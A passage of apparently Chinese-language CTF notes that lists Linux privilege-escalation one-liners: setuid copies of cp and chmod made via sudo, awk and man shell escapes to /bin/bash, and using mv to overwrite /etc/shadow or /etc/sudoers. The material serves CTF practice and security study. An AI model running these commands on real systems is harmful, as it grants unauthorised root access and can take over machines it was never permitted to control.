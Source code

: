 ![](images/ctf-2021-10-10-13-23-11.png)

#### cp(暂未验证）

```
sudo sh -c 'cp $(which cp) .; chmod +s ./cp'
```

#### chmod(暂未验证）

```
sudo sh -c 'cp $(which chmod) .; chmod +s ./chmod'
```

####  ash/linux shell

```
sudo ash
```

#### awk

```
awk 'BEGIN {system("/bin/bash")}'
```

#### mv(暂时未有实例）

```
使用mv 覆盖 /etc/shadow 或者/etc/sudoers
```

#### man

```
man passwd
!/bin/bash
```
